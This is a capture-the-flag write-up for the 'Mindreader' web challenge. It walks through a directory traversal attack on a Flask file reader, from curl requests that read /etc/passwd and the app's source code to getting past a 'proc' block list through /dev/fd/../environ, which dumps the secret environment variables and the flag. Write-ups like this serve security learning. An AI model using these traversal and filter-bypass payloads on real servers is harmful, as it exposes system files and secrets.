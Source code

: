 ## Mindreader
### Description
Category: Miscellaneous
Difficulty: Easy
```
Can you read my mind?

Challenge running at https://mindreader.web.ctfcompetition.com/
```
### Exploration
Visiting the challenge URL produces a web page:
```html
<html>
<head>
</head>
<body>
    <p>Hello, what do you want to read?</p>
    <form method="GET">
        <input type="text" name="f">
        <input type="submit" value="Read">
    </form>
</body>
</html>
```
### File reading
We guess that `f` stands for `file` and this script will read file contents.
Reading `flag` and `flag.txt` yielded nothing.

Since this is an easy challenge we also guess that it's vulnerable to directory traversal.
Fetching https://mindreader.web.ctfcompetition.com/?f=../../../../../etc/passwd confirmed this:
```
notcake@knotcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```
The flag was also not here.
It turned out that https://mindreader.web.ctfcompetition.com/?f=/etc/passwd also worked.

### Reading the page's source
After trying to read `index.php` failed and many failed attempts to work out what was running the web server (nothing in `/proc` could be read), the hint for Secret Notes helped: `Hint: pyc`
```python
notcake@knotcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=main.py
from flask import Flask, request, abort
import re
import os
import logging

assert os.environ['FLAG']

app = Flask(__name__)

INDEX = open('index.html').read()

HALL_OF_SHAME = []

@app.route('/')
def index():
    for ip in request.headers.get('X-Forwarded-For', '').split(','):
        ip = ip.strip().lower()
        if ip in HALL_OF_SHAME:
            abort(403)

    if 'f' in request.args:
        try:
            f = request.args['f']
            if re.search(r'proc|random|zero|stdout|stderr', f):
                abort(403)
            elif '\x00' in f:
                abort(404)
            return open(f).read(4096)
        except IOError:
            abort(404)
    else:
        return INDEX
```
From this it can be seen that:
- The flag is stored in an environment variable, `FLAG`
- `/proc` is blocked but the script goes to great lengths to not block `/dev`

`/proc/self/environ` can't be read directly, but something under `/dev` might help.
```
notcake@knotcake:~/googlectf$ ls -al /dev
...
crw-rw----  1 root video    29,   0 Jun  3 23:07 fb0
lrwxrwxrwx  1 root root          13 Jun  3 23:07 fd -> /proc/self/fd
crw-rw-rw-  1 root root      1,   7 Jun  3 23:07 full
...
```

### Solution
Reading `/dev/fd/../environ` works:
```
notcake@knotcake:~/googlectf$ curl https://mindreader.web.ctfcompetition.com/?f=/dev/fd/../environ
GAE_MEMORY_MB=614HOSTNAME=2df8b7058b79GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-lmkjPORT=8080HOME=/rootPYTHONUNBUFFERED=1GAE_SERVICE=mindreader-sss6w3uqjfrcntmnPATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243LANG=C.UTF-8DEBIAN_FRONTEND=noninteractiveGCLOUD_PROJECT=ctf-web-kuqo48dGOOGLE_CLOUD_PROJECT=ctf-web-kuqo48dCHALLENGE_NAME=mindreaderVIRTUAL_ENV=/envPWD=/home/vmagent/appGAE_VERSION=20170618t144344FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
```
And the flag is `CTF{ee02d9243ed6dfcf83b8d520af8502e1}`.
